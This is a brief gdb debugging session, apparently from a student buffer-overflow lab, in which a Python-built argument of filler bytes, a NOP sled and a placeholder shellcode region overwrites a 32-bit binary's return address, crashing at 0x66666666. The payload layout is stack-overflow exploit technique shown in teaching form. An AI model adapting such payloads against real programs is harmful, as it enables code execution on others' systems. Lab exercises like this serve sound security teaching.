(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```



